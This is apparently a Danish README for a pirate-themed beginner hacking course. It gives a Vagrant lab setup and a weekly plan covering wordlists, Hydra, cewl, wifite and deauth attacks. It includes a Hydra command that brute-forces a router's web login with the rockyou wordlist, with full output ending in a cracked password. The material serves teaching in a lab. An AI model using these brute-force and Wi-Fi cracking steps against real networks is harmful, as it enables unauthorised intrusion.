# pirathak
[![CC BY-NC-SA 4.0][cc-by-nc-sa-shield]][cc-by-nc-sa]

---
### VirtualBox med Vagrant

1. Installerer VirtualBox og Vagrant
   - https://developer.hashicorp.com/vagrant/install?product_intent=vagrant
   - https://www.virtualbox.org/wiki/Downloads
2. Download `Vagrantfile` fra repository, til en lokal mappe
3. åben en terminal i mappen:
   - Start VM box: `vagrant up`
   - Konfigurer VM box: `vagrant provision`
   - Start pirathaven: `vagrant ssh`
   - ######################################
   - oprydning: `vagrant destroy`
---

### TODO

 - Kort over piratskibet
 1. Netværk med computere: ping finde computer + ssh ind til en computer med en kode fundet ved cewl.
    1. PING
    2. SSH
    3. HYDRA -> finder password til ESP (opgave 2.)
 2. Esp opgaver - evt med WEP sikkerhed/ protokol. Vi bruger wifite til at knække koderne med(En Esp connector på skift til de access points der er sat op):
    1. logge ind på et wifi og få en portal. Koden kommer fra ssh opgaven, portalen viser hvad der skal eksporteres
    2. tegn ordbog. Opgavebeskrivelsen beskriver hvor mange tegn kodeordet er på. Portalen viser en hjemmeside hvordan den sidste ESP brydes op.
    3. cewlopgave hvor der høstes ordbog på en side til at brute
    4.

---
---

Uge 36/ 6.september: introduktion terminal, filer, directories
 - Piraterne skal kunne forstå filstruktur i homedirectory
 - Skal kunne bevæge sig i filstrukturen, komme hjem, lave filer, directories
 - Vise filer med cat, bruge less/ more

Uge 37/ 13.september: wordlists og brute force angreb
 - Grundlæggende forståelse af wifi teknologi
 - Forståelse af at generere ordlister med crunch
 - Kunne scanne efter wifi netværk
 - Kunne lave et brute force angreb

Brute force eksempel på at hacke et router interface (en http form) - det kan vi ikke gøre med wifi?!
```
hydra -l root -P ./rockyou.txt -t 9 -V -I 192.168.1.1 http-post-form "/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username"
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-21 23:21:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 9 tasks per 1 server, overall 9 tasks, 14344399 login tries (l:1/p:14344399), ~1593823 tries per task
[DATA] attacking http-post-form://192.168.1.1:80/cgi-bin/luci:username=^USER^&password=^PASS^:Invalid username
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "nicole" - 11 of 14344399 [child 1] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "daniel" - 12 of 14344399 [child 2] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "babygirl" - 13 of 14344399 [child 3] (0/0)
[ATTEMPT] target 192.168.1.1 - login "root" - pass "monkey" - 14 of 14344399 [child 4] (0/0)
[80][http-post-form] host: 192.168.1.1   login: root   password: princess
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-21 23:22:21
```

Uge 38/ 20.september: deauth angreb og generering af wordlists
 - Brug af f.eks. cewl (web scraping), cupp (profilering)
 - Brug af wifite


This work is licensed under a
[Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International License][cc-by-nc-sa].

[![CC BY-NC-SA 4.0][cc-by-nc-sa-image]][cc-by-nc-sa]

[cc-by-nc-sa]: http://creativecommons.org/licenses/by-nc-sa/4.0/
[cc-by-nc-sa-image]: https://licensebuttons.net/l/by-nc-sa/4.0/88x31.png
[cc-by-nc-sa-shield]: https://img.shields.io/badge/License-CC%20BY--NC--SA%204.0-lightgrey.svg
